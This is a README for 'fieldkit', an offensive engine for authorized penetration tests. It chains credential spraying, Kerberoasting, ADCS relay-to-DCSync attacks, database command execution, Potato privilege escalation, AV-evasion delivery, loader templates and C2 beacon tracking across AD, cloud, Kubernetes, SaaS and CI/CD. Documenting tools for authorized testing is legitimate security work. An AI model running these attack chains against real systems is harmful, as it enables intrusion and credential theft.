

# fieldkit

> **Stateful, multi-domain execution engine for authorized pentests — from a credential or foothold to full compromise across AD, hosts, cloud, K8s, SaaS & CI/CD, reporting only what it proved.**

The field kit for the hours between first contact and full compromise.

fieldkit is a **stateful, multi-domain execution engine** for **authorized** penetration
testing. One SQLite engagement store, an injected-runner execution layer that captures
everything, and an anti-fabrication report form the spine — the domains ride on top as
equal peers: **Active Directory**, **web**, **external-service**, **cloud-IAM**,
**Kubernetes-RBAC**, **SaaS / identity-provider**, and **CI/CD**. From a credential, a
foothold, or just a scan it ingests what you know (creds, hosts, tool output, IAM/RBAC
graphs), drives your proven tools (netexec, impacket, certipy, httpx, nuclei, …) against
the scope, finds the paths to compromise, and reports only what it actually proved.
**Standalone — clones to a base Kali box and runs with no install** (Python 3 stdlib
only for the engine; the tools it drives are your existing kit. Optional `bin/fieldkit
tui` uses vendored Textual — no `pip install` needed.)

**New here?** → the one-page runbook is **[`QUICKSTART.md`](QUICKSTART.md)**.

## Get started in 30 seconds

No install, nothing to resolve — the engine is **Python-3-stdlib-only**, so a clone *is* a
working install:

```bash
git clone https://github.com/dloucks01/fieldkit && cd fieldkit
bin/fieldkit preflight                  # which tools it drives are on your PATH (optional)
bin/fieldkit init 'my first engagement' # creates ./engagement.db
bin/fieldkit status                     # the board — you're up
```

That's the whole setup: **clone, run.** `bin/fieldkit` just execs `python3 -m fieldkit`.
Prefer a command on your `PATH`? `pipx install git+https://github.com/dloucks01/fieldkit.git`
— see [Install](#install). The tools fieldkit *drives* (netexec, impacket, certipy, …) are
your own kit; `preflight` shows which are present. Then walk a real run with
**[`QUICKSTART.md`](QUICKSTART.md)**.

## What it does

```
ingest / add cred / add hosts  →  enum / analyze
                               →  escalate  (auto: stage/build/prep, evasion re-delivery)
                               →  domain actions (any order, any mix):
                                    spray · roast · delegation · adcs · bloodhound
                                    web probe · web scan
                                    cloud paths · k8s paths · saas paths · cicd paths
                                    mssql · postgres · mongodb
                               →  paths  (cross-domain stitching, owned→admin BFS)
                               →  report  (Findings + Observations)
```

- **One store, one capture layer, one report.** Every domain writes to the same SQLite
  engagement DB; every command fieldkit runs is captured verbatim; every proven finding
  flows through the same anti-fabrication `--check` gate before it renders. A web RCE,
  a cloud IAM path, and a Kerberos ticket all go through the same pipeline.
- **The orchestrator escalates for you.** `escalate` walks the ranked vectors and follows a
  fallback axis — advance, retry, stop on proof, halt on the unknown; on a miss it
  **auto-stages** a tool from the arsenal, **auto-builds** a payload (`poc`), or
  **download-stages** it over the exec transport when there's no `--put-file` path; on an AV
  catch it **climbs the delivery ladder**; for SeImpersonate it tries the **Potato variants**
  (GodPotato / PrintSpoofer / JuicyPotatoNG / SweetPotato / SharpEfsPotato). Routes it can't
  one-shot (overwrite a running binary, plant a DLL) are handed to `prep`.
- **Credential loop where credentials matter.** When a spray surfaces access, loot → promote
  → re-spray runs until dry — lockout-safe by construction (reads the domain password
  policy first, replays only each account's own proven secret). Same loop semantics apply
  to any domain that produces credentials — cloud SSO cache, K8s SA tokens, SaaS session
  cookies all promote the same way.
- **Database routes are real paths.** MSSQL / PostgreSQL / MongoDB each have first-class
  escalation drivers (xp_cmdshell → SYSTEM, `EXECUTE AS` sysadmin pivots, `COPY FROM
  PROGRAM`, admin DB enumeration), ranked and reported alongside every other route.
- **Three-axis ranking** (exploitability × safety × detection) orders every move the same
  way across every domain — the quiet, safe, precondition-met path floats up whether it's
  a kernel LPE, a web deserialization, or an IAM assume-role chain.
- **Assume-caught.** Evasion is a ranking axis: every technique is red until a Defender lab
  proves it clean; a live catch marks it red and the loop falls back.

## Domains

Seven first-class domains, treated as equal peers over one shared engine. Each is a thin
driver over the shared machinery — the **asset model** (`host` / `endpoint` /
`cloud_principal` / `k8s_subject` / `saas_principal` / `cicd_principal` / … are all
assets), the **asset graph** (directed escalation edges), and the owned→high-value
**BFS** — so a cloud IAM path, a web RCE, a K8s SA token escalation, and a Kerberos
ticket all flow through `report --check` through the same gate. Every graph domain's
escalation paths are **ranked worst-first** by blast radius.

| Domain | Drive it with | What it finds |
|---|---|---|
| **Active Directory** | `spray` → `escalate` → `roast`/`delegation`/`adcs`/`bloodhound` | credential loop → SYSTEM/root → DA paths |
| **CI/CD pipelines** | `ingest cicd <graph>` → `cicd paths` | repo-write/runner → deploy-admin paths (`cicd_privesc`) |
| **Cloud IAM** | `ingest cloud <graph>` → `cloud paths` | owned→admin IAM escalation paths (`cloud_privesc`) |
| **Databases** | `mssql`/`postgres`/`mongodb escalate` · `ingest nmap` | sysadmin pivots, xp_cmdshell → SYSTEM, admin DB enum |
| **External services** | `ingest nmap -sV` → `external` | discovered services matched to the CVE-TTP library (`exposed_service_cve`) |
| **Kubernetes RBAC** | `ingest k8s <graph>` → `k8s paths` | owned→cluster-admin RBAC paths (`k8s_privesc`) |
| **SaaS / identity provider** | `ingest saas <graph>` → `saas paths` | owned→tenant-admin Entra/Okta role paths (`saas_privesc`) |
| **Web** | `web probe`/`web scan` · `ingest httpx`/`nuclei` | live endpoints + `web_vuln` findings |

**Cross-domain stitching** is the payoff of one asset model: `fieldkit paths` collapses the
per-domain graphs into one through shared identity — a recovered AD account whose UPN
matches a cloud role, a SaaS user federated to a cloud role, a declared `aliases`, or an
explicit `ingest pivots` edge — then runs the owned→admin BFS over the *whole* graph.
Credentials recovered anywhere become owned identities everywhere they reach; hosts owned
anywhere become owned nodes in every graph that references them; a web endpoint links to
the host it runs on. The BFS surfaces escalation that crosses a boundary a defender
assumed contained it (`web → host/AD`, `AD → cloud`, `SaaS → cloud`, `cloud → k8s`,
`cicd → cloud`), stepping over any nearer in-domain admin. Each stitched path is a ranked
`cross_domain_privesc` observation.

`fieldkit status` shows the whole picture — assets by kind and findings by domain — in one
board; `fieldkit report` renders every domain's findings through the one anti-fabrication
gate, grouped by domain (cross-domain first) with a cross-domain executive summary. fieldkit calls no
cloud/cluster/IdP APIs itself: the graph domains ingest a normalized graph your own
enumerator produces, the same tool-agnostic handoff as everything else it drives — and
`ingest … --from` adapts native output directly (`aws iam get-account-authorization-details`,
`kubectl auth can-i --list`, Microsoft Graph role assignments), so you pipe what you have.

## Install

Two ways, pick whichever fits:

```bash
# 1) run from a clone (no install — the shim just runs `python3 -m fieldkit`)
git clone https://github.com/dloucks01/fieldkit && cd fieldkit
bin/fieldkit preflight

# 2) install as a system tool with pipx (puts `fieldkit` on PATH)
pipx install git+https://github.com/dloucks01/fieldkit.git
fieldkit preflight
```

fieldkit's engine is Python-3-stdlib-only — nothing to resolve, nothing to `pip
install`. The tools it *drives* (netexec, impacket, msfvenom, evil-winrm, ...)
are your own kit; `fieldkit preflight` checks which are on `$PATH`. The
optional TUI (`bin/fieldkit tui`) ships with vendored Textual so it also
runs on a fresh clone without `pip install` — see [The TUI](#the-tui) below.

## Quick start

```bash
bin/fieldkit preflight                             # optional: are the tools it drives on PATH?

# one engagement = one database in the working directory
bin/fieldkit init 'client Q4'
bin/fieldkit config set lhost=10.10.14.7 lport=443

# ingest what you know, from any domain (any mix, any order)
bin/fieldkit add cred 'CORP/jdoe:Winter2025!'      # DOMAIN\user, user@corp.local, user:LM:NT, …
bin/fieldkit add hosts scope.txt                   # a single IP, a CIDR, or a file of them
bin/fieldkit ingest nmap scan.xml                  # hosts + services → state
bin/fieldkit ingest httpx httpx.jsonl              # live web endpoints
bin/fieldkit ingest cloud iam.json --from aws      # AWS IAM graph (native format)
bin/fieldkit ingest k8s rbac.json --from kubectl   # kubectl auth can-i --list
bin/fieldkit ingest saas entra.json --from msgraph # SaaS / IdP roles
bin/fieldkit ingest cicd pipelines.json            # CI/CD runners + repos
bin/fieldkit ingest hashcat hashcat.potfile        # cracked hashes → promoted credentials

# analyze across every domain, then act
bin/fieldkit analyze                               # ranks every opportunity across every domain
bin/fieldkit status                                # the board — assets by kind, findings by domain

# per-domain actions (pick whichever your engagement needs — all first-class)
bin/fieldkit spray smb                             # AD: lockout-safe credential loop
bin/fieldkit escalate 10.0.0.7 --allow config-change     # host-side privesc
bin/fieldkit roast --dc 10.0.0.10                  # AD: Kerberoast
bin/fieldkit delegation --dc 10.0.0.10             # AD: delegation abuse
bin/fieldkit adcs find --dc 10.0.0.10              # AD: ESC1-16 catalogue
bin/fieldkit bloodhound import ./bh/               # AD: BFS over the AD graph
bin/fieldkit web scan                              # web: nuclei + verify
bin/fieldkit mssql escalate 10.0.0.50              # DB: sysadmin pivot
bin/fieldkit cloud paths                           # cloud: owned→admin IAM BFS
bin/fieldkit k8s paths                             # K8s: owned→cluster-admin RBAC BFS
bin/fieldkit saas paths                            # SaaS: owned→tenant-admin role BFS
bin/fieldkit cicd paths                            # CI/CD: repo-write → deploy-admin BFS
bin/fieldkit paths                                 # cross-domain stitched BFS over everything

# write it up (Findings + Observations, straight from captured evidence)
bin/fieldkit report --check                        # anti-fabrication gate
bin/fieldkit report -o report                      # report.md (+ .docx/.pdf via pandoc)
bin/fieldkit report --cleanup -o report            # internal artifact-removal manifest
bin/fieldkit export-recce recce.json               # fold proven findings into recce
bin/fieldkit archive                               # one .tar.gz for handoff/retention

bin/fieldkit doctor                                # one health check: tools + chain lint + engagement + TTPs
bin/fieldkit refresh eng/fieldkit/recce-bridge.json  # returning-operator one-liner: re-ingest + analyze
```

Riskier vectors need `--allow config-change` (or `crash-risk`); read-only runs freely.
`bin/fieldkit` is a shim for `python3 -m fieldkit`; the DB defaults to `./engagement.db`
(`--db` / `$FIELDKIT_DB`). Every `add cred` echoes its interpretation before storing —
a wrong-format credential is caught at input, not forty hosts into a spray (`--yes` to skip).

## Coerce chains

`fieldkit chain` walks multi-step coerce sequences end-to-end (coerce a
target to auth, relay to a listener, land the payoff). Five shipped
profiles: **esc8** (coerce DC → ADCS relay → DC cert → PKINIT → DCSync),
**rbcd** (coerce workstation → LDAPS relay → msDS-AllowedToActOnBehalf
write → S4U2Self), **smb-relay-exec** (coerce → SMB relay to a signing-
disabled host → command exec), **esc1** (direct ADCS enroll on a
misconfigured template → PKINIT → DCSync), and **nopac**
(CVE-2021-42278/42287 — abuse MachineAccountQuota to add a computer, spoof
its sAMAccountName to a DC, then S4U2Self for a DC-as-admin service ticket).

```bash
bin/fieldkit chain lint                       # audit the profile catalog
bin/fieldkit chain plan esc8 10.0.0.10        # preview steps + detection debt
bin/fieldkit chain run esc8 10.0.0.10 \
    --listener-ip 10.10.14.7 --ca ca01.corp.local --domain corp.local
bin/fieldkit chain walk esc8 10.0.0.10  ...   # interactive: g/s/q per step
bin/fieldkit chain list                       # every recorded chain
bin/fieldkit chain show 12 --signals          # trail + per-step defender-visible signals
bin/fieldkit chain resume 12  ...             # pick up an in_progress walk
bin/fieldkit chain visual 12                  # ASCII kill-chain
```

Every walked step persists to state with its outcome kind, evidence
snippet, and detection cost. The report renders the full chain history
under the per-host summary — a chain that targeted `10.0.0.10` is cited
in that host's block alongside the finding writeups.

## Ecosystem commands

The audit / meta / catalog surfaces that make a session-long fieldkit
install self-documenting:

```bash
bin/fieldkit doctor [--json]                  # health check: preflight + chain lint + engagement + TTPs
bin/fieldkit ttps list [--grep STR]           # browse the shipped TTP catalog (216 entries)
bin/fieldkit ttps show <key>                  # pretty-print one TTP (detect / execute / playbook / …)
bin/fieldkit chain lint [--json --profile X]  # coverage audit of the chain-profile catalog
bin/fieldkit bloodhound import <path>         # ingest a SharpHound zip
bin/fieldkit bloodhound suggest               # for each owned→high-value path, suggest a chain
                                              #   profile + cite matching CVE TTPs for the target
bin/fieldkit refresh [<bridge.json>]          # re-ingest recce + analyze in one step
```

`fieldkit doctor` returns a single exit code (0 clean, 1 warnings,
2 errors) — CI can gate on it. `chain lint --json` emits a structured
findings payload for the same purpose.

## Analysis & reporting depth

Nemesis-parity analysis + PlumHound-parity reporting built on the same
capture-driven stance as the rest of the engine: everything reads from
the engagement store, nothing speculates, everything renders only what
fieldkit actually proved.

```bash
# analysis
bin/fieldkit enrich                           # extract IPs, hashes, PATs, Kerberos tickets,
                                              #   AWS keys from every captured step +
                                              #   suggest the matching hashcat -m per hash
bin/fieldkit timeline [--narrative]           # chronological ribbon (step/finding/credential/
                                              #   evasion rows merged, ts-sorted) or prose
                                              #   paragraph suitable for a report preface
bin/fieldkit correlate --dir <path>           # cross-engagement overlap: shared usernames,
                                              #   credentials, hosts across multiple DBs
bin/fieldkit cve-lookup kernel 5.15.0         # offline CVE lookup from the TTP catalog's
                                              #   version-range rules — zero network

# reporting
bin/fieldkit cvss --severity High --exploitability high \
                  --safety read-only --detection quiet
                                              # CVSS v3.1 vector + base score (pure, no store)
bin/fieldkit report --exec-summary            # severity-count table + top-5 findings +
                                              #   narrative on stdout — readout slides / email
bin/fieldkit report --interactive-html PATH   # single self-contained HTML (inline CSS/JS,
                                              #   filter controls, SVG attack path, dark/light)
bin/fieldkit report --pptx PATH               # 5-slide executive deck (stdlib hand-crafted
                                              #   Open XML — no python-pptx dependency,
                                              #   BrandConfig for title/accent/footer)
```

## Weaponization catalog + beacon tracking

27 weaponization options across 5 categories (loader / bypass / syscall /
encoder / delivery) with OPSEC profile + prereqs + references per entry.
Reference templates live under `fieldkit/loaders/` — fieldkit never
compiles or executes them; operators adapt + build in their own arsenal.

```bash
bin/fieldkit weaponization list [--category loader|bypass|syscall|encoder|delivery]
bin/fieldkit weaponization show <key>         # full description + prereqs + references
bin/fieldkit weaponization render <key>       # print the reference template body

# beacon tracking — fieldkit records state only; operator runs their own C2
bin/fieldkit beacon new <name> --platform windows --transport https \
                                --callback-url https://c2.example/api
bin/fieldkit beacon list / task / result / history / build-config
```

The beacon pieces manage the engagement-side view (per-build mutation
seed, task queue, check-in results) alongside the rest of the state.
Beacon payload code lives as reference templates under
`fieldkit/loaders/`.

## The TUI

Optional terminal workbench for the ops-time flow — Dashboard / Analyze / Escalate / Watch,
keyboard-driven, brand-styled with a burnt-orange accent on warm charcoal. Reads the same
engagement DB; drives the same CLI commands. Textual is vendored (no `pip install`), so it
runs on a fresh clone.

```bash
bin/fieldkit tui                                   # opens on the Dashboard

  g   dashboard      counts, phase, top-3 moves, pwned hosts, chain history + resume nudge
  a   analyze        every ranked opportunity + detail pane · ⏎ → escalate confirm
  e   → analyze      (Escalate is push-only with a highlighted move)
  w   watch          live event tail — sees steps from another terminal in ~250ms
  c   chain plan     preview every registered chain profile
  l   chain launch   pick a profile + target + ctx, walk it
  t   ttps           browse the TTP catalog (216 entries) with live filter
  1-5 chain detail   from the dashboard's CHAINS block, jump to chain #N
  ?   help           keymap overlay
  q   quit           (Ctrl-C also)
```

Chain-detail (from the dashboard's number keys) renders the per-step
trail + signal breakdown + a **r** to resume the walk in the Textual
chain-run screen when the chain is in_progress.

The TUI is a thin client — every action dispatches an existing CLI command; screen state
reads through `fieldkit status --json` (projection) or the direct SQLite store. Same seam is
usable for scripting: `fieldkit status --json | jq`, `fieldkit watch --json` for a JSONL
event stream. Change theme with **Ctrl-P → Change theme** (fieldkit-dark is the default;
gruvbox / dracula / nord / etc. all recolor live).

## Design

- **Orchestrate, don't reimplement.** fieldkit is the brain — state, orchestration, credential
  normalization, escalation, reporting. The tools it drives (netexec, impacket, certipy, httpx,
  nuclei, msfvenom, wixl, gcc, kubectl, aws CLI, …) own their protocols; fieldkit sequences
  them and captures what they said.
- **Every domain is a peer.** AD, web, cloud, K8s, SaaS, CI/CD and databases ride the same
  core (shared asset model, shared graph, shared BFS, shared report). No domain is privileged
  in the architecture — the ranking math decides which route floats up for a given engagement.
- **One store, everything is a projection.** All state is one SQLite DB; `analyze` ranks what
  it proves, `report` renders the captured evidence. Stop and resume anywhere.
- **One canonical credential model.** Liberal ingest, strict output: renderers emit argv
  lists, never shell strings, so quotes/backslashes reach the tool intact. A credential
  recovered in any domain promotes the same way.
- **Three-axis ranking** (exploitability × safety × detection) orders every move the same way
  across every domain, so the quiet, safe, precondition-met path floats up.
- **Findings vs Observations.** The report proves what it exploited (Findings, with the full
  captured walkthrough) and clearly labels what it only identified (Observations).

## Layout

| Path | What |
|---|---|
| `fieldkit/` | the engine — core (`state`, `config`, `creds`, `scope`, `runner`, `executor`, `transport`, `classify`, `assetgraph`), ingest + enumeration (`netexec`, `ingest`, `recce`, `hostenum`, `nxc_probes`, `dump`, `sharespider`, `fs_scrub`, `wordlist`), domain drivers — all peers: AD (`kerberos`, `delegation`, `adcs`, `bloodhound`, `dcsync`, `spray`), web (`web`, `webscan`), databases (`mssql`, `postgres`, `mongodb`), cloud/K8s/SaaS/CI-CD (`cloud_iam`, `k8s`, `saas`, `cicd`), the orchestrator (`analyze`, `privesc`, `escalate`, `staging`, `poc`, `chain`), evasion (`evasion`, `lab`), analysis (`enrich`, `confidence`, `timeline`, `correlate`, `cve_lookup`), reporting (`report`, `reportkb`, `bridge`, `archive`, `status_json`, `watch`, `cvss`, `html_report`, `pptx_export`), weaponization (`weaponization`, `beacon`), and the thin `cli` |
| `fieldkit/loaders/` | reference templates per weaponization catalog entry (`.c.j2`, `.cs.j2`, `.asm`, `.py.j2`); read-only — fieldkit never compiles or runs them |
| `fieldkit/tui/` | the optional Textual TUI — Dashboard / Analyze / Escalate / Watch |
| `fieldkit/vendor/` | vendored Textual + Rich + deps (~12 MB); enables `bin/fieldkit tui` without `pip install` |
| `bin/fieldkit` | run it from a clone without installing |
| `tests/` | the test suite (2,456 tests, ~8 min, no network/tools needed) |
| `exploits/` | operator-staged binaries/PoCs (air-gap); see `SUPPLIED-BINARIES.md` |
| `QUICKSTART.md` | one-page operator runbook |
| `INTEGRATION.md` | pairing with [recce](https://github.com/dloucks01/recce) |
| `package.sh` | bundle source + staged exploits into one archive for an air-gapped box |

The engagement database holds client credentials **in the clear** — treat it as loot
(encrypted storage, destroyed with the rest of the evidence). It is gitignored.

## Companion: recce

Pairs with [**recce**](https://github.com/dloucks01/recce). recce is the survey-plan-catch-
report platform — it sweeps the network, confirms and prioritizes vulnerabilities (KEV/EPSS),
synthesizes attack paths, catches and holds shells (C2, SOCKS pivots), and writes the customer
report. By design it stops at the trigger: its on-target work is **read-only** and it does not
engineer evasion. fieldkit is the half past the trigger — the autonomous operator that walks
recce's ranked plan, fires each move, mutates target state to **prove** the compromise, and
prices every step in detection risk. `recce fieldkit-export` seeds triage with confirmed-
vulnerable hosts; `fieldkit export-recce` → `recce fieldkit-import` folds your proven findings
back into recce's workbook + report. See **[`INTEGRATION.md`](INTEGRATION.md)**.

## Scope

Authorized penetration testing from a credential, foothold, or scan through compromise and
reporting across every supported domain. **Out of scope by design:** phishing / AiTM,
physical/wireless, and beacon/BOF-grade evasion (fieldkit states a path's detection risk
rather than promising invisibility). **Authorized engagements only** — every component assumes
you have permission for the target.


```mermaid
flowchart LR
  I["ingest<br/>creds · hosts · nmap · httpx<br/>cloud · k8s · saas · cicd"] --> A["analyze<br/>rank every opportunity<br/>across every domain"]
  A --> AD["AD<br/>spray · roast · delegation<br/>adcs · bloodhound"]
  A --> W["web<br/>probe · scan"]
  A --> DB["DB<br/>mssql · postgres · mongodb"]
  A --> C["cloud / k8s / saas / cicd<br/>paths"]
  A --> E["escalate<br/>stage · build · prep · evasion"]
  AD --> P["paths<br/>cross-domain stitched BFS<br/>(owned→admin)"]
  W --> P
  DB --> P
  C --> P
  E --> P
  P --> RP["report<br/>Findings + Observations"]
```
